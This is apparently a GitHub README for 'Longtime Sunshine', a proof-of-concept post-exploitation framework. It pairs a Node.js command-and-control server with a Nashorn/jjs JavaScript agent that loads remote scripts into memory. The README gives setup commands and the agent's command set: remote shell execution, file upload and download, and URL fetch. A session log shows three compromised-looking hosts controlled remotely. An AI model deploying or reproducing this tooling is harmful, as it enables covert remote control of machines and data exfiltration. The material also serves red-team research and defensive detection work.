 # Longtime Sunshine

Longtime Sunshine is a proof of concept Nashorn-based post exploitation framework. Nashorn is the JavaScript engine that Oracle introduced in Java 8. The engine's JavaScript implementation lacks any type of socket functionality, but does allow the programmer to invoke Java functionality. Nashorn also has an interesting property in that it can compile a string into memory executable bytecode. As such, a small amount of JavaScript/Java can be leveraged to load scripts from a remote user into memory.

Nashorn can be invoked from the command line using 'jjs'. This tool gets installed along side the JRE.

## Usage
The command and control server, longtime.js, is written using node. Assuming you are using Ubuntu (or another Debian variant) you can execute the following commands to get the server running.

```sh
albinolobster@ubuntu:~/longtime_sunshine$ sudo apt install nodejs npm
albinolobster@ubuntu:~/longtime_sunshine$ npm install
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$
```

Currently, the server is hardcoded to listen on '0.0.0.0:1270'.

The agent, sunshine.js, can be executed using 'jjs' multiple ways. The first, and most obvious, is to simply execute the script:

```sh
albinolobster@ubuntu:~/longtime_sunshine$ jjs sunshine.js &
[1] 30747
albinolobster@ubuntu:~/longtime_sunshine$
```

Similar example except with cmd.exe:

```sh
C:\Program Files\Java\jre.1.8.0_151\bin>jjs C:\Users\albinolobster\Desktop\sunshine.js
```

On the server side you'll see something like this:

```sh
☀  Connection established by 127.0.0.1:47670
$
```

Of course, you can also just copy and paste sunshine.js into the jjs terminal for that true fileless feel, but that isn't really practical if you can't background or hide the terminal.

### Commands

Since this is only a PoC, only a minimal set of commands are implemented.

```sh
$ help
The following commands are supported:

help - this message
exit - exits the terminal
agents - lists the connected agents
agent <int> - begin interaction with the selected agent
```

```sh
$ agent 0
albinolobster@127.0.0.1$ help
The following commands are supported:

help - this message
exit - exits back to the main terminal
exec <args> - executes a shell command via cmd.exe or sh
upload <local file> <remote file> - uploads a local file to the agent
download <remote file> <local file> - downloads a file from the agent
get <url> <remote file> - the agent downloads form the url and creates the remote file
```

### Usage Example

```sh
albinolobster@ubuntu:~/longtime_sunshine$ node longtime.js 

   01101100 01101111 01101110 01100111 01110100 
   01101001 01101101 01100101 00100000 01110011 
   01110101 01101110 01110011 01101000 01101001 
  ╦  ┌─┐┌┐┌┌─┐┌┬┐┬┌┬┐┌─┐  ╔═╗┬ ┬┌┐┌┌─┐┬ ┬┬┌┐┌┌─┐
  ║  │ │││││ ┬ │ ││││├┤   ╚═╗│ ││││└─┐├─┤││││├┤ 
  ╩═╝└─┘┘└┘└─┘ ┴ ┴┴ ┴└─┘  ╚═╝└─┘┘└┘└─┘┴ ┴┴┘└┘└─┘
   01101110 01100101 00100000 01110101 01110000 
   01101111 01101110 00100000 01101101 01100101 

$ 
☀  Connection established by 192.168.1.188:62939
$ 
☀  Connection established by 192.168.1.207:51162
$ 
☀  Connection established by 192.168.1.188:62946
$ agents
=> [0] albinolobster@192.168.1.188:62939 (Mac OS X-10.12.6/x86_64)
=> [1] albinolobster@192.168.1.207:51162 (Windows 10-10.0/amd64)
=> [2] albinolobster@192.168.1.188:62946 (Linux-4.13.0-31-generic/amd64)

$ agent 1

albinolobster@192.168.1.207$ exec cd
C:\Program Files\Java\jre1.8.0_151\bin
albinolobster@192.168.1.207$ exit
$ agent 0
albinolobster@192.168.1.188$ exec uname -a
Darwin mac.westeros 16.7.0 Darwin Kernel Version 16.7.0: Wed Oct  4 00:17:00 PDT 2017; root:xnu-3789.71.6~1/RELEASE_X86_64 x86_64
albinolobster@192.168.1.188$ exit
$ agent 2
albinolobster@192.168.1.188$ exec uname -a
Linux ubuntu 4.13.0-31-generic #34~16.04.1-Ubuntu SMP Fri Jan 19 17:11:01 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
albinolobster@192.168.1.188$ exit
$ 
```sh
